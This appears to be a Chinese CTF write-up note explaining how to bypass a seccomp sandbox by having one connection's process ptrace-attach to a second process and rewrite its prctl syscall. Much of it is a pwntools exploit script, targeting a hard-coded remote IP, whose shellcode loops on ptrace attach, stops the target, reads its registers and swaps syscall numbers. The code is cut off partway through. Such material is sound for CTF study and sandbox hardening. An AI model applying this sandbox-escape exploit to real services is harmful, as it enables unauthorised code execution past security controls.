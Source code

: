 ### 骚操作
[https://v3rdant.cn/Linux.Seccomp-and-Ptrace/](https://v3rdant.cn/Linux.Seccomp-and-Ptrace/)

使用nc连接两次，产生了两个进程，如果能在第二个进程运行前，通过ptrace截停prctl的调用，改成随便一个无关调用，就可以实现沙盒的绕过

其中三个问题：

首先是如何获得第二个进程的pid： 在CTF这种比较纯净的环境，可以认为两个进程PID相近，把当前进程的PID加1或者加2就可以

其次是如何实现在第二次进程运行seccomp前的窗口期实现ptrace上此进程： 可以通过在一个进程使用ptrace attach轮询，直到执行成功返回1。不过也有失败的概率

第三也是最终限制了这个tricks的使用的是，我们都知道，ptrace默认只能attach到自己的子进程，除非 /proc/sys/kernel/yama/ptrace_scope 设置为0

> 然而难受的是 docker 当中这个值默认为 1
>
> 而且，实际比赛当中有好多选手同时连接，很难确定进程号
>

exp：（来自[https://bbs.kanxue.com/thread-283211.htm](https://bbs.kanxue.com/thread-283211.htm)）

1：负责指定一个进程ID，并无限尝试附加，比如附加进程ID3000，直到附加成功，然后将seccomp相关调用过滤掉

```python
#-*- coding: utf-8 -*-
from pwn import *

if len(sys.argv) != 2:
    print("Usage: python script.py <pid>")
    sys.exit(1)

#ip = "127.0.0.1"
ip = "47.101.191.23"

#p=process('./a.out')
#p = remote('127.0.0.1', 9999)
p = remote(ip, 9999)
context.arch = 'amd64'
#pid = 10000
pid = int(sys.argv[1])
print('PID: {}'.format(pid))

# 附加失败无限重试(ptrce == 0)
shellcode='''
begin_trace:
'''
shellcode += shellcraft.ptrace(0x10,pid,0,0)       #附加
shellcode += '''
   cmp eax,0x00
   jne begin_trace
continue:
'''

shellcode+=shellcraft.ptrace(0x18,pid,0,0)      #让目标下一个syscall停下来
shellcode+=shellcraft.wait4(pid,0,0)            #等待目标停下来
shellcode+=shellcraft.ptrace(12,pid,0,"rsp") #获取寄存器(struct user_regs_struct)到内存data中
shellcode+='''
   mov r8,rsp
   mov r11,qword ptr [r8+0x78]
 
   cmp r11,0x13D
   je change_13D
 
   cmp r11,0x3C
   je change_3C
 
   cmp r11,0xE7
   je change_E7
```
